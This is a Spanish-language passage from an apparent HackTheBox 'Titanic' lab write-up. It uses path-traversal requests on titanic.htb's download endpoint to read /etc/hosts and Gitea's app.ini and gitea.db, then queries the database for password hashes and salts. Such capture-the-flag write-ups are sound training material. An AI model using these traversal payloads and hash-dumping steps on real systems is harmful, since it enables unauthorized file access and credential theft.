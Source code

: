 <br>

Posteriormente, accedimos al archivo ``/etc/hosts``para identificar dominios adicionales configurados localmente:
```text
titanic.htb/download?ticket=../../../../etc/hosts
```
<p align="center">
  <img src="https://github.com/ElChe1/Explotation-Lab/blob/main/HTB/Easy/Titanic/media/img/etc_hosts.png" alt="etc_hosts" style="border-radius: 10px;">
</p>

<br>

La lectura del archivo reveló un nuevo dominio interno: **dev.titanic.htb**, el cual añadimos manualmente al archivo ``/etc/hosts`` de nuestra máquina atacante.

Descubrimos que se trataba de una instancia de **Gitea**, una plataforma de control de versiones similar a GitHub. 

>[!TIP]
>Regístrate en la web

Desde el apartado de repositorios públicos ("Explore"), analizamos dos proyectos accesibles: **docker-config** y **flash-app**. En el repositorio docker-config hallamos un archivo **docker-compose.yml** que revelaba cómo estaba desplegada la instancia de Gitea:
<p align="center">
  <img src="https://github.com/ElChe1/Explotation-Lab/blob/main/HTB/Easy/Titanic/media/img/docker_compose.png" alt="docker_compose" style="border-radius: 10px;">
</p>

<br>

Esto implica que toda la información de Gitea, incluyendo su configuración **app.ini**, base de datos **gitea.db** y posiblemente claves SSH, está almacenada localmente bajo ``/home/developer/gitea/data``, lo que representa un vector de ataque viable si se combinan con otras vulnerabilidades como el LFI previamente descubierto.

Aprovechando la vulnerabilidad LFI, se descargó **app.ini** y **gitea.db**
```
titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini

titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db
```

>[!NOTE]
> El archivo **app.ini** contenía, entre otros datos sensibles, la ruta completa de la base de datos de Gitea.

Con el archivo **.db** en mano, se inspeccionó su contenido utilizando SQLite:
```bash 
sqlite gitea.db
sqlite> .tables
sqlite> SELECT name, passwd, salt FROM user;
```
<p align="center">
  <img src="https://github.com/ElChe1/Explotation-Lab/blob/main/HTB/Easy/Titanic/media/img/select.png" alt="select" style="border-radius: 10px;">
</p>
